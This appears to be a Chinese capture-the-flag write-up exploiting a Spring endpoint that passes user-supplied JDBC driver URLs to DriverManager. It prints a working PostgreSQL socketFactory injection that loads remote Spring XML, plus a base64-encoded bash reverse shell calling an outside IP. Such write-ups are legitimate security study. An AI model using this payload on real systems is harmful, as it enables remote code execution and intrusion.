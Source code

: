 ## TestConnection

```java
commons-collections-3.2.1.jar
mysql-connector-java-8.0.11.jar
postgresql-42.3.1.jar
```

```java
public class IndexController {
    @RequestMapping({"/"})
    public String index() {
        return "Hello World!";
    }

    @RequestMapping({"/testConnection"})
    //需要传入参数 drvier url username password
    public String testConnection(@RequestParam("driver") String driver, @RequestParam("url") String url, @RequestParam("username") String username, @RequestParam("password") String password) {
        try {
            Class.forName(driver);
            DriverManager.getConnection(url, username, password);
            return "success";
        } catch (Exception e) {
            return e.getMessage();
        }
    }
}
```

直接打

首先开一个http服务，然后一个监听反弹shell端口

```java
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzguMTMwLjExNi4yNDcvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

```java
driver=jdbc:postgresql://127.0.0.1:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://8.130.116.247:9999/aaa.xml  记得进行url编码，随机写一个账号密码即可
```

![image-20231218214733997](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231218214733997.png)

最后环境变量找到flag`env`

![image-20231218215049912](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231218215049912.png)